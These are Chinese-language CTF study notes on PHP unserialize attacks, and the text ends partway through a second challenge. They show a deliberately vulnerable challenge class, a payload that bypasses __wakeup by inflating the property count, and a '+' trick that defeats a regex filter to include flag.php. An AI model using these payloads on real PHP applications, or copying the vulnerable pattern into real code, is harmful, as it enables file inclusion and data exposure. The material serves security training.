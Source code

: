 ## __weakup绕过

如果存在\_\_weakup方法，调用unserialize()方法前则先调用\_\_weakup方法，但是序列化字符串中表示对象属性个数的值大于真实的属性个数时，会跳过__weakup的执行

O:4:"test":2:{s:2:"v1";s:6:"benben";s:2:"v2";s:3:"123";}
O:4:"test":**3**:{s:2:"v1";s:6:"benben";s:2:"v2";s:3:"123";}

成员属性为3，但实际后面只有两个属性

```php
<?php
class secret{
    var $file='index.php';
    public function __construct($file){
        $this->file=$file;
    }
    function __destruct(){
        include_once($this->file);
        echo $flag;
    }
    function __wakeup(){
        $this->file='index.php';
    }
}
$cmd=$_GET['cmd'];
if (!isset($cmd)){
    highlight_file(__FILE__);
}
else{
    if (preg_match('/[oc]:\d+:/i',$cmd)){
        echo "Are you daydreaming?";
    }
    else{
        unserialize($cmd);
    }
}

O:6:"secret":1:{s:4:"file";s:8:"flag.php";}
O:6:"secret":2:{s:4:"file";s:8:"flag.php";}
把成员属性数量值写成2，就可以跳过__weakup()
但是正则表达式限制了O:后面不能跟数字
O:+6:"secret":2:{s:4:"file";s:8:"flag.php";}
加号+跳过正则表达式判断
urlencode('O:+6:"secret":2:{s:4:"file";s:8:"flag.php";}')
```

## 引用

```php
<?php
include("flag.php");
class just4fun {
    var $enter;
    var $secret;
}
if (isset($_GET['pass'])) {
    $pass = $_GET['pass'];
    $pass=str_replace('*','\*',$pass);
}
$o = unserialize($pass);
if ($o) {
    $o->secret = "*";
    if ($o->secret === $o->enter)
        echo "Congratulation! Here is my secret: ".$flag;
    else
```